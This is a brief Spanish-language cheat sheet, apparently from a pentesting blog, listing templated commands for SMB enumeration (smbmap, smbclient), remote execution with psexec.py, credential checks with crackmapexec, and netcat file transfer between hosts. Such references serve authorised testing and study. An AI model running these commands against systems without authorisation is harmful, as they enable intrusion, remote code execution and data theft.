 ```yaml
---
layout: post
title: Enumeración CheetSheat
tags: [CheetSheat]
description: "Enumeración CheetSheat"
---
```


## Samba

### smbmap

```
smbmap -H <ip> -r /share/share2
smbmap -H <ip> --download /share/share2/file
smbmap -H <ip> -d <domain> -u <user> -p <password>
```

### smbclient

```
smbclient //<ip>/share -U <domain>\\<user>%<password>
```

### psexec

```
psexec.py <domain>/<user>@<ip>
```

### CracMapExec

```
crackmapexec smb <ip>  -u <user> -p <password>
```


----

## Transferencia de archivos

### Linux

```
nc -lvp <port> > file (recibe el fichero)
nc <ip> < <file> <port> (envia el fichero)
```
